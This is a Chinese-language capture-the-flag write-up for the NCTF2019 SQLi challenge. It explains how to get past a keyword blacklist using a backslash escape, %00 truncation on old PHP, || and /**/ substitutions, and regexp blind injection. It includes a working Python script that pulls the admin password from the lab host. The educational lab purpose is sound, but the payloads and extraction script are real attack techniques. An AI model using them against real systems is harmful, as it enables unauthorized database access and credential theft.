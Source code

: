 # \[NCTF2019]SQLi

## \[NCTF2019]SQLi

## 考点

* PHP版本小于5.3存在%00截断
* regexp进行盲注

## wp

直接给了提示

![](../.gitbook/assets/image\_sfYfyc8b6nSC7hNBpnQ9we.png)

用户名输入`admin' or 1=1 #`会提示`hacker`

![](../.gitbook/assets/image\_aTeFgtrh9rxPGfq913aP7U.png)

发现只要存在`'`就会弹出hacker，再看一下给的语句，如果过滤了`'`，那可以用的方式就剩下转义，但是转义之后无法把最后面的单引号取掉

```python
select * from users where username='' and passwd=''
```

一时没有头绪。试了一下/robots.txt，提示访问/hint.txt

```python
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";

If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

基本上全过滤了，还剩下`\`,`regexp`,`/**/`和`&^|`

在返回包中可以看到PHP版本为5.2，在版本小于5.3是可以进行字符串截断的，再用`;`就可以进行语句闭合

```python
select * from users where username='\' and passwd=';%00'
```

前半句查询username肯定是空，接着就要看怎么构造payload了。虽然过滤了or，但是可以用`||`替代

```python
select * from users where username='\' and passwd='||1;%00'
```

![](../.gitbook/assets/image\_iiKK5H3SSVyENVqTy4uuMq.png)

最后payload应该是这样子

```python
username=\&passwd=||(select/**/passwd/**/regexp/**/"^a");%00
```

但是过滤了select，最终payload

```python
username=\&passwd=||(passwd/**/regexp/**/"^y");%00
```

![](../.gitbook/assets/image\_uR9gVsK8RJHuT4HcsLxDcp.png)

exp

```python
import requests
from urllib.parse import unquote
import string

url = 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81/' 


cookies = {
    'UM_distinctid': '17e150f6a59ecb-028dcf28d64a708-4c3e2679-384000-17e150f6a5a90d',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81',
    'Connection': 'keep-alive',
    'Referer': 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81/',
    'Upgrade-Insecure-Requests': '1',
}
table = string.ascii_letters + string.digits + '_{}'
flag = ''
for j in range(50):
    for i in table:
        data = {
            'username': '\\',
            'passwd': f'||(passwd/**/regexp/**/"^{flag+i}");'+unquote('%00')
        }
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        
        if '404 Not Found' in response.text:
            flag = flag + i
            break
        else:
            continue
    print(flag)
```

结果是`yoU_Will_neVer_knoW7788990`，再全转成小写`you_will_never_know7788990`

![](../.gitbook/assets/image\_d85KV9HrnSr64Yoe4nRkS9.png)

flag条件是输入的password和数据库中的相同，在提示中写了

```python
$_POST['passwd'] === admin's password
```

![](../.gitbook/assets/image\_b8uTnXzfo6qzZYwzx6saov.png)

## 小结

1. 反斜杠结合PHP的%00截断bypass对`'`的过滤
2. `||`绕过or
3. `/**/`绕过空格
4. regex进行盲注

